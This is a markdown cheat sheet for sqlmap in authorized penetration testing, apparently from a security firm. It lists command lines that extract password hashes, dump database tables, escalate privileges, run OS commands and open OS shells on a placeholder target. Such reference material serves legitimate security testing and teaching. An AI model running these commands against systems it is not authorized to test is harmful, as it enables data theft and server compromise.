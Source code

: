 # SQLMap Cheat Sheet for Penetration Testing

This guide is for quick reference during SQL injection testing using **sqlmap**, a powerful automated tool for SQLi discovery and exploitation.

---

## 🔧 Basic Usage

```shell
# Specify a POST request with parameters
sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah'

# Target specific parameter in POST/GET data
sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1
```

## 🔐 Authentication & Headers

```shell
# Use cookies for authenticated sessions
sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'

# Drop Set-Cookie headers from responses
sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie

# Use a random User-Agent header
sqlmap -u 'http://target.server.com' -r req.txt --random-agent
```

## 🎯 Targeted Requests

```shell
# Read request from Burp Suite file and target 'user' parameter
sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords

# Target specific DBMS (example: Oracle)
sqlmap -u 'http://target.server.com' -r req.txt --dbms=Oracle
```

## 🚀 Advanced Attack Options

```shell
# Increase scan intensity
sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3

# Attempt privilege escalation
sqlmap -r ./req.txt --level=1 --risk=3 --privesc

# Execute an OS command (whoami)
sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami

# Dump all data with 1-second delay between requests
sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
```

## 🧰 Useful Options

| Option | Description |
|--------|-------------|
| `-r req.txt` | Load raw HTTP request from file (e.g., Burp Suite) |
| `--force-ssl` | Enforce HTTPS usage |
| `--proxy http://127.0.0.1:8080` | Route traffic through a proxy like Burp |
| `--delay=1` | Delay between requests (seconds) |
| `--level=1` | Controls number of tests per parameter (1-5) |
| `--risk=3` | Risk level for tests (1-3) |
| `--dbs` | Enumerate databases |
| `--tables` | List tables in a database |
| `--columns` | List columns in a table |
| `--dump` | Dump table contents |
| `--comments` | Extract DB comments |
| `--hostname` | Show DB server hostname |
| `--all` | Dump everything |
| `--passwords` | Get DB user password hashes |
| `--sql-shell` | Open interactive SQL shell |
| `--os-shell` | Attempt to get OS shell |
| `--file-write` | Upload file to server |
| `--file-dest` | Destination path on target server |
| `--reg-read` | Read Windows registry key |

## 🎯 Exploitation Techniques

Use `--technique` to specify injection types:

| Code | Technique |
|------|-----------|
| B | Boolean-based blind |
| E | Error-based |
| U | Union query-based |
| S | Stacked queries |
| T | Time-based blind |
| Q | Inline queries |

---

> ⚠️ **Disclaimer**: This page is for educational and authorized penetration testing only. Abricto Security assumes no responsibility for misuse.